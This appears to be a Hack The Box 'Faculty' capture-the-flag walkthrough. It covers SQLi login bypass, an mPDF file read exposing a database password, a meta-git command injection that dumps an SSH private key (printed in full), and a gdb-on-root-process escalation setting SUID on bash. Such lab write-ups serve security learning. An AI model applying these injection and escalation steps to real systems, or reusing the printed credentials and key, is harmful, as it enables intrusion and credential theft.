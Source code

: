```yaml
---
published: true
title: Hackthebox Faculty walkthrough
date: '2022-10-22 05:57:00 +0200'
categories:
  - HTB
tags: HTB
---
```


# Faculty
<img src="https://i.ibb.co/m094Xwg/Faculty.png" alt="Faculty" border="0">
## Scanning :

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-02 20:40 GMT
Nmap scan report for faculty.htb (10.129.198.120)
Host is up (0.18s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp    open     http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: School Faculty Scheduling System
|_Requested resource was login.php
43669/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1447.73 seconds
```

```bash
┌──(root💀kali)-[/home/kali]
└─# nano /etc/hosts 
10.129.197.71 faculty.htb
```

## Explotation 

<img src="https://i.ibb.co/xhqHF2G/Untitled.png" alt="Untitled" border="0">

- First thing will came to your head is to try SQLi auth bypass.

<img src="https://i.ibb.co/VpKSc4v/2.png" alt="2" border="0">

- We logged in as Smith

<img src="https://i.ibb.co/Yk5wwD1/3.png" alt="3" border="0">

## Content Discovery 

```bash
┌──(root💀kali)-[/home/kali]
└─# dirb http://faculty.htb          

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jul  4 22:04:34 2022
URL_BASE: http://faculty.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://faculty.htb/ ----
==> DIRECTORY: http://faculty.htb/admin/
```

- This Endpoint looks interesting, let’s check it.

<img src="https://i.ibb.co/Yk5wwD1/3.png" alt="3" border="0">

- It’s scheduling system for a school, It uses PDF, what is the first attack came to your mind ?,  XSS → SSRF.
- It didn’t work, So we need to discover more about the Application.

<img src="https://i.ibb.co/5rfH8HC/5.png" alt="5" border="0">

- If you look at the url you will find out that the Application uses PHP libraries for generating PDF files called mPDF.
- While searching for any CVE related to mPDF I found this <a href="https://github.com/mpdf/mpdf/issues/949">Issue</a> , Let’s try it and see how it works.

<img src="https://i.ibb.co/QDT22P4/6.png" alt="6" border="0">

<img src="https://i.ibb.co/9NHgLjx/7.png" alt="7" border="0">

<img src="https://i.ibb.co/B66MgVj/8.png" alt="8" border="0">

- Before i generated an Error i think it will help me now.

```
curl "http://faculty.htb/admin/ajax.php?action=get_schecdule"
Fatal error: Uncaught Error: in /var/www/scheduling/admin/admin_class.php 
```

- After adjusting the payload to get Admin_class.php

```php
<?php
session_start();
ini_set('display_errors', 1);
Class Action {
        private $db;

        public function __construct() {
                ob_start();
        include 'db_connect.php';
```

- Now we need to check db_connect.php

```php
<?php
$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

- BAM ! we got creds now.

## User 

```bash
┌──(root💀kali)-[/home/kali/HTB/faculty]
└─# ssh gybolo@faculty.htb
gybolo@faculty.htb's password: Co.met06aci.dly53ro.per
gbyolo@faculty:~$
```

- First thing we need to check what we can run as as sudo.

```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: Co.met06aci.dly53ro.per
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
gbyolo@faculty:~$
```

- I search for an Exploit for meta-git and i found this report [https://hackerone.com/reports/728040](https://hackerone.com/reports/728040)
- So i fired my RCE

```bash
gbyolo@faculty:/$ sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
meta git cloning into 'poc | cat ~/.ssh/id_rsa' at id_rsa
id_rsa:
fatal: repository 'poc' does not exist

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

```bash
gbyolo@faculty:/$ ssh developer@10.129.197.198 -i id_rsa
developer@faculty:~$ cat user.txt 
0b4045********************9cd0c2
```

- After some enumration i foundout i’m in DEBUG

```bash
developer@faculty:~$ groups
developer debug faculty
developer@faculty:~$ getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
```

## Root  

1. After some privilege escalation tries
2. I found out process running as a ROOT
3. And i’m in the DEBUG group
4. So I can run GDB and attach it to the process
5. And call system function to spwan a root shell

```bash
developer@faculty:~$ ps faux | grep ^root | grep python3
root   731   0.0  0.9  26896 18200   Ss   Jul02   0:00 /usr/bin/python3
developer@faculty:~$ gdb -p 731
Attaching to process 731
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 44975]
(gdb) quit
A debugging session is active.
Quit anyway? (y or n) y
[Inferior 1 (process 731) detached]
developer@faculty:~$
```

```
developer@faculty:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
2a9*************************d03
bash-5.0#
```

![https://media4.giphy.com/media/ywkTx4yhxqweTO46mT/giphy.gif?cid=790b761118b7c3bdee7413d3ddb1400019bbc22c4f0826ce&rid=giphy.gif&ct=g](https://media4.giphy.com/media/ywkTx4yhxqweTO46mT/giphy.gif?cid=790b761118b7c3bdee7413d3ddb1400019bbc22c4f0826ce&rid=giphy.gif&ct=g)
